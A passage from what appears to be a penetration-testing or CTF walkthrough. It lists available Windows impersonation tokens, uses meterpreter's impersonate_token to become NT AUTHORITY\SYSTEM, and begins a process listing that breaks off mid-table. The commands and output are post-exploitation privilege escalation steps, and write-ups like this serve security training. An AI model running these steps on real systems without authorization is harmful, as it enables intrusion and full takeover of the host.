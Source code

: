 NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\CryptSvc
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\LanmanWorkstation
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\NlaSvc
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\TermService
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc{% endraw %}{% endcapture %} {% include code.html code=code %}

Impersonate using `administrator` token.
{% capture code %}{% raw %}meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
            Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM{% endraw %}{% endcapture %} {% include code.html code=code %}

Check the current list of processes.
{% capture code %}{% raw %}meterpreter > ps

Process List

PID   PPID  Name                  Arch  Session  User                          Path
---   ----  ----                  ----  -------  ----                          ----
0     0     [System Process]
4     0     System                x64   0
396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe